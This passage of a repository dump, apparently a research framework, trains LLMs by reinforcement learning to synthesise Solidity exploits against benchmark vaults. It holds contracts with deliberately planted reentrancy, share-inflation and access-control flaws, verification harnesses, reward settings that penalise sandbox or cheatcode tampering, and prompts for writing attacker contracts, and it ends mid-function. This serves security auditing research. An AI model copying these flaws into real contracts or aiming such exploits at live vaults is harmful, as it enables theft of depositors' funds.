

# Project: NeuBeginner/Agentic-security-RLVR

## Project Tree
`
.gitignore
README.md
benchmarks/targets/sample_vault.py
benchmarks/targets/solidity/ERC4626Vault.sol
benchmarks/targets/solidity/ERC4626VaultHarness.t.sol
benchmarks/targets/solidity/Vault.sol
benchmarks/targets/solidity/VaultHarness.t.sol
core/__init__.py
core/config.py
core/evaluator.py
core/llm_generator.py
core/schemas.py
modal_app.py
requirements.txt
sandbox/__init__.py
sandbox/prebake_solc.py
sandbox/runner.py
tests/test_pipeline.py
`

================================================================================
File: .gitignore
================================================================================
`
__pycache__/
*.py[cod]
*$py.class
.pytest_cache/
.env
.venv
env/
venv/
*.log

`

================================================================================
File: README.md
================================================================================
`
# Aegis-RLVR 2.0: Autonomous Multi-Agent Web3 Security Framework

[](https://modal.com)
[](https://getfoundry.sh)
[](https://github.com/crytic/slither)
[](https://opensource.org/licenses/MIT)
[](#research-overview)

**Aegis-RLVR 2.0** is an autonomous smart contract security auditing, exploit synthesis, and reinforcement learning framework designed to eliminate False Positives in Web3 audits. It couples multi-agent frontier reasoning with **deterministic EVM invariant verification**, strict cheatcode barriers, and **Reinforcement Learning from Verifiable Rewards (RLVR)** data collection for GRPO policy training.

---

## 🔬 Architecture & Methodology (Aegis-RLVR 2.0)

Aegis-RLVR 2.0 addresses the critical gap between static LLM auditors and executable proof-of-concept verification:



---

## ⚡ Specialized Division of Labor

1. **Static Analysis Layer (Slither):** Runs on ephemeral Modal CPU workers to extract AST detector signals (`reentrancy-eth`, `divide-before-multiply`, `uninitialized-state`) to prime downstream LLMs with hard architectural facts.
2. **Security Auditor (Qwen3-Coder-30B-A3B-Audit on Modal H100):** Operates in its native domain-trained role—analyzing Solidity source code to output structured JSON finding arrays without hallucinations.
3. **Primary Exploit Synthesizer (Gemini 2.5 Flash / Coder Models):** Generates clean, unprivileged `ExploitModule` contracts targeting formal security invariants.
4. **Cheatcode & Sandbox Barrier:** Pre-execution AST checks block any attempt to use privileged Foundry cheatcodes (`vm.deal`, `vm.prank`, `vm.store`, `Test.sol`), ensuring the exploit acts strictly as an external on-chain entity.
5. **Multi-Candidate Parallel Execution (Modal `.map`):** Dispatches $K$ parallel candidate hypotheses simultaneously across ephemeral Linux Foundry containers.
6. **Independent Replay Verification:** Every passing exploit is re-executed in a completely fresh, isolated EVM container to guarantee 100% deterministic reproducibility.
7. **RLVR Ground-Truth Trajectory Buffer:** Commits `(prompt, hypothesis, exploit, trace, reward)` pairs into persistent Modal Volume (`/vol/models/trajectories`) for offline **GRPO (Group Relative Policy Optimization)** fine-tuning.

---

## 📊 RLVR Reward Shaping

| Execution Outcome | Ground-Truth Reward | Impact on Policy / Action |
| :--- | :---: | :--- |
| **Verified Exploit + Confirmed Replay** | **`+1.00`** | Deterministic 0-day exploit confirmed |
| **Breached Invariant (Flaky / No Replay)** | **`+0.50`** | Partial success, non-deterministic |
| **Clean Execution (Invariant Intact)** | **`-0.10`** | Safe run, target contract defended |
| **EVM Runtime Revert** | **`-0.25`** | Syntactically valid, reverted during execution |
| **Execution Timeout (Out-of-Gas)** | **`-0.30`** | Execution timed out (>60s) |
| **Solidity Compiler Error (`solc`)** | **`-0.50`** | Compilation / syntax failure |
| **Cheatcode Tampering Attempt (`vm.*`)** | **`-1.00`** | Immediate disqualification & penalty |

---

## 📁 Repository Structure

```
D:\AI\agentic-security-rlvr/
├── core/
│   ├── config.py           # Modal cloud settings, Gemini API, RLVR reward shaping
│   ├── schemas.py          # Pydantic schemas (Target, Hypothesis, Result, Trajectory)
│   ├── llm_generator.py    # Target-agnostic prompts (Auditor JSON, Exploit synthesis, Gemini)
│   └── evaluator.py        # Multi-factor invariant evaluation & GRPO trajectory packager
├── sandbox/
│   ├── runner.py           # Foundry runner, Slither analysis, cheatcode barrier, replay verification
│   └── prebake_solc.py     # Solc compiler prebaking script with SHA256 integrity validation
├── benchmarks/
│   └── targets/solidity/   # Benchmark targets with trusted Foundry harnesses
│       ├── Vault.sol & VaultHarness.t.sol           (Reentrancy solvency invariant)
│       └── ERC4626Vault.sol & ERC4626VaultHarness.t.sol (Share inflation dilution invariant)
├── tests/
│   └── test_pipeline.py    # 13 comprehensive unit tests (cheatcodes, parser, multi-factor)
├── modal_app.py            # Aegis-RLVR 2.0 distributed orchestrator on Modal Cloud
├── requirements.txt
└── README.md
```

---

## 🚀 Running Aegis-RLVR 2.0 on Modal

### Prerequisites
```bash
pip install modal google-genai
modal profile activate neubeginner
```

### 1. Gemini Flash Mode (Frontier API Reasoning + Modal Foundry Sandboxes)
```bash
modal run modal_app.py --generator gemini --target-name ERC4626Vault --num-candidates 3
```

### 2. Production Mode (H100 + 30B Qtum Security Model + Slither)
```bash
modal run modal_app.py --mode audit --target-name Vault --num-candidates 5
```

### 3. Dev / CI Smoke-Test Mode (T4 GPU + Ephemeral EVM Sandboxes)
```bash
modal run modal_app.py --mode dev --target-name ERC4626Vault --num-candidates 3
```

---

## 📄 License
This project is licensed under the MIT License - see the LICENSE file for details.

`

================================================================================
File: benchmarks/targets/sample_vault.py
================================================================================
`
"""
Sample vulnerable target simulating a smart contract / financial vault.
Contains a classic Check-Effects-Interaction (Reentrancy-style) logic flaw
and an access control flaw.
"""

class VulnerableVault:
    def __init__(self):
        self.balances = {}
        self.owner = "admin"
        self.total_funds = 0

    def deposit(self, user: str, amount: int):
        if amount <= 0:
            raise ValueError("Deposit must be positive")
        self.balances[user] = self.balances.get(user, 0) + amount
        self.total_funds += amount

    def get_total_balance(self) -> int:
        return self.total_funds

    def exploit_drain(self, attacker: str) -> bool:
        """
        Flawed withdrawal logic:
        Drains funds before updating balance ledger (State Invariant Breach).
        """
        if attacker not in self.balances:
            return False
            
        stolen_amount = self.total_funds
        # Vulnerability: total_funds depleted without properly updating internal balance invariants
        self.total_funds -= stolen_amount
        return True

    def update_owner(self, new_owner: str):
        """
        Missing caller validation:
        Anyone can reassign vault ownership without authorization checks!
        """
        self.owner = new_owner

`

================================================================================
File: benchmarks/targets/solidity/ERC4626Vault.sol
================================================================================
`
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

/**
 * @title ERC4626Vault
 * @notice Realistic DeFi yield vault implementing standard share-to-asset conversion
 * without virtual offset protection (vulnerable to first-depositor share inflation).
 */
contract ERC4626Vault {
    string public name = "Yield Vault";
    string public symbol = "yvETH";
    
    uint256 public totalShares;
    mapping(address => uint256) public shareBalances;

    event Deposit(address indexed caller, address indexed owner, uint256 assets, uint256 shares);
    event Withdraw(address indexed caller, address indexed receiver, uint256 assets, uint256 shares);

    function totalAssets() public view returns (uint256) {
        return address(this).balance;
    }

    function convertToShares(uint256 assets) public view returns (uint256) {
        uint256 supply = totalShares;
        return supply == 0 ? assets : (assets * supply) / totalAssets();
    }

    function convertToAssets(uint256 shares) public view returns (uint256) {
        uint256 supply = totalShares;
        return supply == 0 ? shares : (shares * totalAssets()) / supply;
    }

    function deposit() external payable returns (uint256 shares) {
        require(msg.value > 0, "Zero assets");
        
        uint256 assetsBefore = address(this).balance - msg.value;
        if (totalShares == 0 || assetsBefore == 0) {
            shares = msg.value;
        } else {
            shares = (msg.value * totalShares) / assetsBefore;
        }

        totalShares += shares;
        shareBalances[msg.sender] += shares;

        emit Deposit(msg.sender, msg.sender, msg.value, shares);
    }

    function withdraw(uint256 shares) external returns (uint256 assets) {
        require(shares > 0, "Zero shares");
        require(shareBalances[msg.sender] >= shares, "Insufficient shares");

        assets = (shares * totalAssets()) / totalShares;
        require(assets > 0, "Zero assets payout");

        shareBalances[msg.sender] -= shares;
        totalShares -= shares;

        (bool success, ) = msg.sender.call{value: assets}("");
        require(success, "ETH transfer failed");

        emit Withdraw(msg.sender, msg.sender, assets, shares);
    }

    // Direct donation to inflate share price
    receive() external payable {}
}

`

================================================================================
File: benchmarks/targets/solidity/ERC4626VaultHarness.t.sol
================================================================================
`
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import {ERC4626Vault} from "../src/ERC4626Vault.sol";
import {ExploitModule} from "./ExploitModule.sol";

/**
 * @title ERC4626TrustedHarness
 * @notice Fixed, immutable verification harness.
 * Evaluates whether an exploit module breaches depositor equity via share inflation.
 */
contract ERC4626TrustedHarness is Test {
    ERC4626Vault public vault;
    address public victim = address(0xCAFE);
    uint256 public constant VICTIM_DEPOSIT = 2 ether;
    uint256 public constant ATTACKER_BUDGET = 5 ether;

    event SecurityInvariantBreached(string invariantType, uint256 deficit);

    function setUp() public {
        vault = new ERC4626Vault();
        vm.deal(victim, VICTIM_DEPOSIT);
    }

    function testExploit() public {
        // Deploy candidate exploit module generated by the AI agent
        ExploitModule exploit = new ExploitModule(address(vault));
        vm.deal(address(this), ATTACKER_BUDGET);

        // Execute candidate exploit (e.g. mints 1 wei share and donates balance)
        exploit.runExploit{value: ATTACKER_BUDGET}();

        // Honest victim deposits 2 ETH
        vm.prank(victim);
        uint256 victimShares = vault.deposit{value: VICTIM_DEPOSIT}();

        // ====================================================================
        // TRUSTED POST-CONDITION INVARIANT CHECK (EQUITY & DILUTION PROTECTION)
        // ====================================================================
        // Invariant 1: An honest depositor must receive non-zero shares
        // Invariant 2: Victim must be able to redeem at least 95% of their deposited value
        uint256 victimRedeemable = (victimShares == 0) ? 0 : vault.convertToAssets(victimShares);
        
        bool zeroSharesMinted = (victimShares == 0);
        bool victimValueDiluted = (victimRedeemable < (VICTIM_DEPOSIT * 95) / 100);

        if (zeroSharesMinted || victimValueDiluted) {
            uint256 deficit = VICTIM_DEPOSIT - victimRedeemable;
            emit SecurityInvariantBreached("SHARE_INFLATION_DEPOSITOR_DILUTION", deficit);
            console.log("[INVARIANT_BREACHED:SHARE_INFLATION_DEPOSITOR_DILUTION]");
            return;
        }

        revert("EXPLOIT_FAILED: Honest depositor received fair proportional shares");
    }

    receive() external payable {}
}

`

================================================================================
File: benchmarks/targets/solidity/Vault.sol
================================================================================
`
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

/**
 * @title Vault
 * @notice Simulates a DeFi lending/staking vault containing a classic 
 * Checks-Effects-Interactions (Reentrancy) flaw in withdrawAll().
 */
contract Vault {
    mapping(address => uint256) public balances;
    uint256 public totalDeposits;
    address public owner;

    event Deposit(address indexed user, uint256 amount);
    event Withdrawal(address indexed user, uint256 amount);

    constructor() {
        owner = msg.sender;
    }

    function deposit() external payable {
        require(msg.value > 0, "Deposit must be positive");
        balances[msg.sender] += msg.value;
        totalDeposits += msg.value;
        emit Deposit(msg.sender, msg.value);
    }

    function withdrawAll() external {
        uint256 balance = balances[msg.sender];
        require(balance > 0, "No balance to withdraw");

        // VULNERABILITY: External interaction before state update (Reentrancy vector)
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Transfer failed");

        balances[msg.sender] = 0;
        totalDeposits -= balance;
        emit Withdrawal(msg.sender, balance);
    }

    function getVaultBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

`

================================================================================
File: benchmarks/targets/solidity/VaultHarness.t.sol
================================================================================
`
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import {Vault} from "../src/Vault.sol";
import {ExploitModule} from "./ExploitModule.sol";

/**
 * @title VaultTrustedHarness
 * @notice Fixed, immutable verification harness.
 * Evaluates whether an exploit module breaches individual depositor solvency.
 */
contract VaultTrustedHarness is Test {
    Vault public vault;
    address public victim = address(0xCAFE);
    uint256 public constant VICTIM_INITIAL_DEPOSIT = 10 ether;
    uint256 public constant ATTACKER_BUDGET = 1 ether;

    event SecurityInvariantBreached(string invariantType, uint256 insolvencyDeficit);

    function setUp() public {
        vault = new Vault();
        
        // Victim deposits 10 ETH into the vault
        vm.deal(victim, VICTIM_INITIAL_DEPOSIT);
        vm.prank(victim);
        vault.deposit{value: VICTIM_INITIAL_DEPOSIT}();

        // Sanity check initial condition
        require(vault.balances(victim) == VICTIM_INITIAL_DEPOSIT, "Harness setup failed: victim balance mismatch");
        require(address(vault).balance == VICTIM_INITIAL_DEPOSIT, "Harness setup failed: vault balance mismatch");
    }

    function testExploit() public {
        // Deploy candidate exploit module generated by the AI agent
        ExploitModule exploit = new ExploitModule(address(vault));
        
        // Fund the harness test runner with authorized attacker budget
        vm.deal(address(this), ATTACKER_BUDGET);

        // Execute the attack
        exploit.runExploit{value: ATTACKER_BUDGET}();

        // ====================================================================
        // TRUSTED POST-CONDITION INVARIANT CHECK (EVM STATE VERIFICATION)
        // ====================================================================
        uint256 vaultRemainingBalance = address(vault).balance;
        uint256 victimOwedBalance = vault.balances(victim);

        // Invariant: Solvency coverage for individual depositor (victim)
        // If the vault's physical balance is less than what is owed to the honest victim,
        // or if the victim's attempt to withdraw reverts, the contract is insolvent.
        bool isInsolvent = (vaultRemainingBalance < victimOwedBalance);

        // Probe: Attempt victim withdrawal
        bool victimWithdrawalFailed = false;
        vm.prank(victim);
        try vault.withdrawAll() {
            // Victim was able to withdraw their balance -> funds were NOT drained
            victimWithdrawalFailed = false;
        } catch {
            // Reentrancy / drain caused victim withdrawal to revert!
            victimWithdrawalFailed = true;
        }

        if (isInsolvent || victimWithdrawalFailed) {
            uint256 deficit = (victimOwedBalance > vaultRemainingBalance) 
                ? (victimOwedBalance - vaultRemainingBalance) 
                : VICTIM_INITIAL_DEPOSIT;
                
            emit SecurityInvariantBreached("DEPOSITOR_SOLVENCY_COLLAPSE", deficit);
            // Unique verifiable log emitted ONLY by this trusted harness upon verified state breach
            console.log("[INVARIANT_BREACHED:DEPOSITOR_SOLVENCY_COLLAPSE]");
            return;
        }

        // If victim funds remain intact, the candidate exploit failed to breach the invariant!
        revert("EXPLOIT_FAILED: Vault remains solvent, victim funds are secure");
    }

    receive() external payable {}
}

`

================================================================================
File: core/__init__.py
================================================================================
`
"""Core logic for Aegis-RLVR."""

`

================================================================================
File: core/config.py
================================================================================
`
import os
from dataclasses import dataclass


@dataclass(frozen=True)
class PipelineConfig:
    # Modal Application Settings
    APP_NAME: str = "aegis-rlvr-security"
    MODEL_VOLUME_NAME: str = "aegis-model-cache"
    MODEL_CACHE_DIR: str = "/vol/models/huggingface"
    TRAJECTORY_DIR: str = "/vol/models/trajectories"
    
    # Primary API Generator (Gemini Flash Frontier Reasoning)
    GEMINI_API_KEY: str = os.getenv("GEMINI_API_KEY", "")
    GEMINI_MODEL: str = "gemini-2.5-flash"
    
    # GPU Audit Model (Modal GPU Worker)
    AUDIT_GPU_MODEL: str = "qtum/Qwen3-Coder-30B-A3B-Audit"
    AUDIT_GPU_TYPE: str = "H100"
    
    # Fast reasoning agent fallback (Modal T4 for Dev/CI)
    DEV_GPU_MODEL: str = "Qwen/Qwen2.5-Coder-1.5B-Instruct"
    DEV_GPU_TYPE: str = "T4"
    
    # Static Analysis Layer
    ENABLE_SLITHER: bool = True
    
    # Sandboxed Foundry Execution limits
    SANDBOX_TIMEOUT_SEC: int = 60
    SANDBOX_CPU_CORES: float = 2.0
    SANDBOX_MEMORY_MB: int = 2048
    
    # Scalable Parallelism & Verification Parameters
    DEFAULT_PARALLEL_CANDIDATES: int = 5
    MAX_REFINEMENT_ROUNDS: int = 3
    ENABLE_INDEPENDENT_REPLAY: bool = True
    
    # Solidity / EVM settings
    SOLC_VERSION: str = "0.8.20"
    
    # RLVR Reward Shaping (Multi-Factor & Reproducibility)
    REWARD_INVARIANT_BREACH: float = 1.0       # Verified Exploit + Confirmed Independent Replay
    REWARD_BREACH_NO_REPLAY: float = 0.5      # Invariant breached once, but non-reproducible
    REWARD_RUNTIME_REVERT: float = -0.25      # Compiled cleanly, but reverted during EVM runtime
    REWARD_COMPILATION_FAIL: float = -0.5     # solc / forge compilation error
    REWARD_SAFE_RUN: float = -0.1             # Clean execution, no invariant breached
    REWARD_TIMEOUT: float = -0.3              # Out of gas / infinite loop
    REWARD_CHEATCODE_PENALTY: float = -1.0    # Attempted to use Foundry cheatcodes / sandbox escape


config = PipelineConfig()

`

================================================================================
File: core/evaluator.py
================================================================================
`
import uuid
import time
from core.schemas import ExecutionResult, ExploitPayload, VerificationVerdict, TargetProgram, RLVRTrajectory
from core.config import config


def evaluate_execution_trace(payload: ExploitPayload, result: ExecutionResult) -> VerificationVerdict:
    """
    Computes a deterministic, verifiable reward score based on multi-factor execution feedback.
    Applies strict invariant verification and independent reproducibility confirmation.
    This serves as the RLVR ground-truth signal for GRPO training.
    """
    # 1. Immediate rejection and severe penalty for cheatcode/sandbox tampering
    if result.cheatcode_detected:
        return VerificationVerdict(
            target_name=payload.target_name,
            is_verified=False,
            reward_score=config.REWARD_CHEATCODE_PENALTY,
            vulnerability_type=payload.hypothesis.vulnerability_type,
            poc_code=payload.test_code,
            feedback="SECURITY VIOLATION: ExploitModule attempted to use Foundry cheatcodes (vm.*) or unprivileged test environments.",
            state_delta_verified=False,
            reproducible=False,
            refinement_iteration=payload.attempt_number
        )

    # 2. Check for execution timeout (DoS / out-of-gas / infinite loop)
    if result.timed_out:
        return VerificationVerdict(
            target_name=payload.target_name,
            is_verified=False,
            reward_score=config.REWARD_TIMEOUT,
            vulnerability_type=payload.hypothesis.vulnerability_type,
            poc_code=payload.test_code,
            feedback=f"Execution timed out after {result.execution_time_sec:.1f}s. Possible out-of-gas or infinite recursion.",
            state_delta_verified=False,
            reproducible=False,
            refinement_iteration=payload.attempt_number
        )

    # 3. Multi-Factor Invariant Verification (Verified 0-day Exploit)
    has_valid_breach_log = any("[INVARIANT_BREACHED" in str(log) for log in result.decoded_logs)
    is_genuine_breach = (
        result.invariant_violated and
        result.return_code == 0 and
        result.test_status == "Success" and
        has_valid_breach_log and
        not result.cheatcode_detected
    )

    if is_genuine_breach:
        logs_detail = f" Logs: {result.decoded_logs}" if result.decoded_logs else ""
        
        # Award full reward ONLY if reproducibility in an independent run was confirmed
        if result.reproducibility_confirmed:
            reward = config.REWARD_INVARIANT_BREACH
            feedback_msg = f"SUCCESS: Multi-factor verification passed and independently reproduced in clean EVM!{logs_detail}"
            reproduced = True
        else:
            reward = config.REWARD_BREACH_NO_REPLAY
            feedback_msg = f"PARTIAL SUCCESS: Invariant breached, but awaiting independent reproducibility check.{logs_detail}"
            reproduced = False

        return VerificationVerdict(
            target_name=payload.target_name,
            is_verified=True,
            reward_score=reward,
            vulnerability_type=payload.hypothesis.vulnerability_type,
            poc_code=payload.test_code,
            feedback=feedback_msg,
            state_delta_verified=True,
            reproducible=reproduced,
            refinement_iteration=payload.attempt_number
        )

    # 4. Check for compilation or EVM runtime revert failures
    if result.return_code != 0:
        if result.revert_reason:
            error_msg = f"EVM Runtime Revert: {result.revert_reason}"
            reward = config.REWARD_RUNTIME_REVERT
        else:
            raw_err = result.stderr if result.stderr.strip() else result.stdout
            error_msg = f"Compilation Error: {raw_err[:350].strip()}"
            reward = config.REWARD_COMPILATION_FAIL

        logs_detail = f" | Logs: {result.decoded_logs}" if result.decoded_logs else ""
        return VerificationVerdict(
            target_name=payload.target_name,
            is_verified=False,
            reward_score=reward,
            vulnerability_type=payload.hypothesis.vulnerability_type,
            poc_code=payload.test_code,
            feedback=f"Execution Failed (exit code {result.return_code}): {error_msg}{logs_detail}",
            state_delta_verified=False,
            reproducible=False,
            refinement_iteration=payload.attempt_number
        )

    # 5. Clean execution, but invariant was NOT breached (Safe run / No-op)
    return VerificationVerdict(
        target_name=payload.target_name,
        is_verified=False,
        reward_score=config.REWARD_SAFE_RUN,
        vulnerability_type=payload.hypothesis.vulnerability_type,
        poc_code=payload.test_code,
        feedback="Safe Execution: Test completed cleanly, but target contract maintained all security invariants.",
        state_delta_verified=False,
        reproducible=True,
        refinement_iteration=payload.attempt_number
    )


def create_trajectory_record(
    target: TargetProgram,
    payload: ExploitPayload,
    verdict: VerificationVerdict,
    prompt_used: str = ""
) -> RLVRTrajectory:
    """Packages the verified execution trajectory for GRPO fine-tuning."""
    return RLVRTrajectory(
        trajectory_id=str(uuid.uuid4()),
        timestamp=time.time(),
        target_name=target.name,
        target_code=target.source_code,
        slither_hints=target.slither_findings,
        prompt_used=prompt_used,
        hypothesis=payload.hypothesis,
        generated_exploit=payload.test_code,
        reward=verdict.reward_score,
        is_verified=verdict.is_verified,
        reproduced=verdict.reproducible,
        feedback_trace=verdict.feedback
    )

`

================================================================================
File: core/llm_generator.py
================================================================================
`
import os
import re
import json
from typing import List, Optional, Dict, Any
from core.schemas import TargetProgram, AttackHypothesis, ExploitPayload
from core.config import config


# =============================================================================
# 1. AUDIT DETECTOR PROMPT (Optimized for Qwen-Audit / JSON-formatted audits)
# =============================================================================
AUDIT_DETECTOR_SYSTEM_PROMPT = """You are an elite Web3 security auditor.
Analyze the target Solidity smart contract to identify security flaws, logical errors, and invariant violations.
For each vulnerability, output a structured JSON array of findings with:
- "title": Short title of vulnerability
- "category": e.g. "Reentrancy", "FirstDepositorInflation", "AccessControl", "OracleManipulation", "ArithmeticError", "LogicFlaw"
- "severity": "Critical", "High", "Medium", or "Low"
- "function": Name of vulnerable function
- "description": Explanation of the root cause
- "attack_vector": Step-by-step strategy to trigger the vulnerability
"""


# =============================================================================
# 2. EXPLOIT ENGINEER PROMPT (Optimized for Frontier / Coder Synthesis)
# =============================================================================
EXPLOIT_ENGINEER_SYSTEM_PROMPT = """You are an automated exploit synthesis engineer in an isolated EVM environment.
Your task is to analyze the target contract and the specified security invariants, then synthesize an executable, unprivileged attacker contract named `ExploitModule` (`contract ExploitModule`).

CRITICAL EVM EXPLOIT SPECIFICATIONS:
1. Provide a concise reasoning trace explaining the root cause and exploit strategy.
2. Provide the complete, compilable Solidity exploit contract inside a single ```solidity ... ``` code block.
3. The exploit contract MUST be named `ExploitModule`: `contract ExploitModule { ... }`.
4. The constructor MUST accept the target address: `constructor(address _target) { ... }`.
5. The attack entrypoint MUST be: `function runExploit() external payable { ... }`.
6. Import the target contract using named import: `import { {target_name} } from "../src/{target_name}.sol";`.
7. DO NOT re-declare `contract {target_name}` or its interface.
8. NEVER import `forge-std/Test.sol` or use `vm.*` cheatcodes. `ExploitModule` must be a realistic, unprivileged on-chain contract.
9. Always use valid Solidity 0.8.20 syntax (`pragma solidity ^0.8.20;`).
10. The verification harness will fund your `runExploit()` with an authorized attacker budget and verify whether the specified security invariant is breached.
"""

# Backwards compatibility alias
SOLIDITY_SYSTEM_PROMPT = EXPLOIT_ENGINEER_SYSTEM_PROMPT


def build_auditor_prompt(target: TargetProgram) -> str:
    """Prompt for the auditor model to detect vulnerabilities and output structured JSON."""
    invariants_text = "\n".join(f"- {inv}" for inv in target.invariants) if target.invariants else "- General contract security"
    return f"""Target Contract Name: {target.name}
Language: Solidity 0.8.20

Security Invariants To Verify:
{invariants_text}

Target Contract Source Code:
```solidity
{target.source_code}
```

Identify all vulnerabilities that could breach the stated security invariants.
Output your findings as a valid JSON array of objects.
"""


def build_analysis_prompt(target: TargetProgram, hypothesis: Optional[AttackHypothesis] = None) -> str:
    """
    Target-agnostic prompt for exploit synthesis.
    Integrates Slither static analysis findings and formal invariants without hardcoded contract names.
    """
    invariants_text = "\n".join(f"- {inv}" for inv in target.invariants) if target.invariants else "- Depositor equity & solvency"
    
    slither_context = ""
    if target.slither_findings:
        slither_lines = [
            f"- [{f.get('impact', 'Medium')}] {f.get('check')}: {f.get('description')}"
            for f in target.slither_findings
        ]
        slither_context = "\nStatic Analysis (Slither) Detectors:\n" + "\n".join(slither_lines) + "\n"

    hypothesis_context = ""
    if hypothesis:
        hypothesis_context = f"""
Auditor Finding Hypothesis:
- Vulnerability Type: {hypothesis.vulnerability_type}
- Attack Vector     : {hypothesis.attack_vector}
- Analysis Trace    : {hypothesis.reasoning_trace}
"""

    return f"""Target Contract File: src/{target.name}.sol
Target Contract Name: {target.name}
Language: Solidity 0.8.20

Security Invariants Being Tested:
{invariants_text}
{slither_context}{hypothesis_context}
Target Contract Source Code:
```solidity
{target.source_code}
```

Instructions:
1. Carefully inspect all public/external functions, state updates, balance tracking, and transfer logic.
2. Synthesize the complete `ExploitModule` contract.
3. Import the target: `import {{{target.name}}} from "../src/{target.name}.sol";` (do not redefine it).
4. Store the target contract reference: `{target.name} public targetContract = {target.name}(payable(_target));`.
5. Implement `function runExploit() external payable` that executes transactions with the target to breach the invariant.
6. If necessary for callbacks or reentrancy, implement `receive() external payable` or other fallback handlers.
7. Strictly unprivileged: Do NOT use Foundry cheatcodes (vm.*) or test harnesses.
8. Return clean, compilable Solidity code in a single ```solidity ... ``` block.
"""


def build_refinement_prompt(target: TargetProgram, failed_code: str, error_feedback: str) -> str:
    """
    Constructs a closed-loop refinement prompt guided by structured Foundry EVM trace.
    Target-agnostic and focused on compiler feedback and revert reasons.
    """
    invariants_text = "\n".join(f"- {inv}" for inv in target.invariants) if target.invariants else "- Security invariants"
    return f"""Your previous candidate ExploitModule failed to compile or failed to breach the security invariant in the EVM.

--- FOUNDRY EVM EXECUTION FEEDBACK ---
{error_feedback}
--------------------------------------

Target Contract (src/{target.name}.sol):
```solidity
{target.source_code}
```

Security Invariants To Breach:
{invariants_text}

Previous Candidate ExploitModule:
```solidity
{failed_code}
```

Refinement Guidelines:
- If Compilation Error: Check for undefined variables, incorrect function parameters, or redeclaration of imported types.
- If EVM Runtime Revert: Check require statements, msg.value conditions, balance constraints, or call sequencing.
- If Safe Run: The previous exploit did not violate the invariant. Adjust the attack mechanism (e.g. state timing, parameter amounts, reentrancy condition) to ensure the invariant is physically breached in EVM state.
- Strictly unprivileged: Do NOT use `vm.*` cheatcodes.

Return the complete, corrected Solidity contract inside a single ```solidity ... ``` code block.
"""


def extract_solidity_code(model_output: str) -> str:
    """Extracts solidity code block from the model's text response."""
    pattern = r"```(?:solidity|sol)?\s*\n(.*?)```"
    matches = re.findall(pattern, model_output, re.DOTALL)
    if matches:
        return max(matches, key=len).strip()
    return ""


def parse_model_response(target: TargetProgram, raw_text: str, attempt_idx: int = 1) -> ExploitPayload:
    """Parses raw LLM text into a structured ExploitPayload."""
    code = extract_solidity_code(raw_text)
    
    parts = raw_text.split("```")
    reasoning = parts[0].strip() if parts else raw_text[:300]
    
    vuln_type = "Web3Vulnerability"
    lower_r = (reasoning + "\n" + code).lower()
    if "reentrancy" in lower_r or "drain" in lower_r:
        vuln_type = "ReentrancyDrain"
    elif "inflation" in lower_r or "share" in lower_r or "erc4626" in lower_r:
        vuln_type = "FirstDepositorShareInflation"
    elif "access" in lower_r or "owner" in lower_r or "auth" in lower_r:
        vuln_type = "AccessControlPrivilegeEscalation"
    elif "flash" in lower_r or "oracle" in lower_r:
        vuln_type = "OraclePriceManipulation"
    elif "overflow" in lower_r or "underflow" in lower_r:
        vuln_type = "ArithmeticError"
    elif "logic" in lower_r or "invariant" in lower_r:
        vuln_type = "LogicFlawInvariantBreach"

    hypothesis = AttackHypothesis(
        vulnerability_type=vuln_type,
        reasoning_trace=reasoning,
        attack_vector="Synthesized EVM interaction sequence against trusted verification harness."
    )
    
    return ExploitPayload(
        target_name=target.name,
        hypothesis=hypothesis,
        test_code=code if code else "// Error: No Solidity code generated\n",
        test_filename="ExploitModule.sol",
        attempt_number=attempt_idx
    )


def synthesize_exploit_gemini(
    target: TargetProgram,
    hypothesis: Optional[AttackHypothesis] = None,
    api_key: Optional[str] = None
) -> ExploitPayload:
    """
    Synthesizes candidate ExploitModule using Gemini Flash frontier reasoning API.
    Direct integration via google-genai SDK.
    """
    from google import genai
    
    key = api_key or config.GEMINI_API_KEY or os.environ.get("GEMINI_API_KEY", "")
    client = genai.Client(api_key=key) if key else genai.Client()
    
    prompt = build_analysis_prompt(target, hypothesis)
    response = client.models.generate_content(
        model=config.GEMINI_MODEL,
        contents=prompt,
        config={"system_instruction": EXPLOIT_ENGINEER_SYSTEM_PROMPT, "temperature": 0.3}
